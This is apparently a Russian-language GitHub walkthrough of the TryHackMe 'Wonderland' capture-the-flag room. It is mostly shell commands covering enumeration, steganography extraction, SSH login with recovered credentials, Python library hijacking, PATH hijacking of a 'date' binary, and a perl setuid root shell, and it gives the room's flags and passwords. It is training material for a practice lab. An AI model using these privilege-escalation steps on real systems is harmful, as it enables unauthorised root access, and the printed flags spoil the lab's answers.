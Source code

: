 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Wonderland](https://tryhackme.com/r/room/wonderland) 

Всего 1 заданиe:
## Задание 1
Войдите в Страну Чудес и захватите флаги.



### Ответьте на вопросы ниже
Получить флаг в user.txt
```commandline
nmapj -sC -sV <IP>
/data/src/dirsearch/dirsearch.py -u http://10.10.125.113/ -E -w /data/src/wordlists/directory-list-2.3-medium.txt 
wget http://<IP>/img/white_rabbit_1.jpg
steghide info white_rabbit_1.jpg 
steghide extract -sf white_rabbit_1.jpg 
cat hint.txt 
# follow the r a b b i t
curl -s http://<IP>/r/a/b/b/i/t/
# alice:HowDothTheLittleCrocodileImproveHisShiningTail
ssh alice@<IP>
cat /root/user.txt
```

```commandline
thm{"Curiouser and curiouser!"}
```
+ 20
Повысьте свои привилегии, какой флаг в root.txt?
```commandline
ls -la /home
cat walrus_and_the_carpenter.py
python3 walrus_and_the_carpenter.py 
sudo -l
cat > random.py << EOF

import os
os.system("/bin/bash")
EOF

sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
whoami
file teaParty
./teaParty

cat > date << EOF
#!/bin/bash
/bin/bash
EOF

chmod +x date
export PATH=/home/rabbit:$PATH
./teaParty 
whoami
cd /home/hatter/
cat password.txt
# WhyIsARavenLikeAWritingDesk?
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
whoami
cat /home/alice/root.txt
```
```commandline
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)